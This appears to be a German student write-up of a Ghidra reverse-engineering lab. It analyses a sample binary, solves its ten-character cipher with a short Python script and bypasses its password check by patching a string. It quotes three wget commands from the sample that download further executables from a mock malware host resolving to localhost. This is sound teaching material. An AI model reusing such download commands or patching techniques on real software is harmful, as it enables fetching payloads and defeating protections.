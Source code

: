 ```yaml
---
title: Ghidra for Beginners
author: Paul Nykiel
date: \today
---
```


# Einführung
Der `file` Befehl teilt einem mit, dass es sich um eine Executable (mit Debug Informationen) für x86-64 Linux handelt.

Beim ausführen werden drei neue Executables angelegt: `02_a`, `02_b` und `03`. Mit `strings 01` kann man herausfinden
woher die Dateien kommen, man findet drei `wget` Anweisungen:
```
wget -q http://malware.h4.xx0r/02_a
wget -q http://malware.h4.xx0r/02_b
wget -q http://malware.h4.xx0r/03
```
interessehalber kann auch herausgefunden werden was sich hinter `malware.h4.xx0r` versteckt, mit `dig` kann
der DNS-Eintrag aufgelöst werden, er zeigt auf Localhost. D.h. es läuft ein Webserver in der VM.

# Advanced
## Chiffre analysieren
Das Program akzeptiert zwei Argument mit jeweils genau 10 Zeichen länge. 
Das erste Argument wird transformiert und muss dann gleich dem zweiten Argument sein. 
Die Transformation erfordert, dass das Wort nur aus Buchstaben besteht, diese werden im ersten Schritt alle
zu Kleinbuchstaben umgewandelt. Im nächsten Schritt wird der ASCII-Wert jeden Buchstabens mit 10 Multipliziert und
Modulo `0x1A` gerechnet. Auf das Ergebnis wird dann der ASCII Wert von "a" addiert und dieses Ergebnis wird wieder
nach ASCII Interpretiert.

Um die Transformation schnell ausrechnen zu können wurde ein kleine Python Skript geschrieben:
```python
import sys

inp = sys.argv[1]
out = ""

for c in inp:
    asc = ((ord(c) * 10) % 0x1A) + ord('a')
    out += chr(asc) 

print(out)
```
dieses ergibt z.B. für den Text `aaaaaaaaaa` die Chiffre `iiiiiiiiii`. Diese wird vom Program auch als korrekt angenommen.

## Patchen
Das Passwort ist immer eine zufällige Permutation aller Zeichen eines Strings im Programmcode (der String ist 
initial `0123456789`). Durch Patchen des Strings (wie in der VL beschrieben) zu `0000000000` sind alle Passwörter
Permutationen von `0` also wieder `0000000000`.
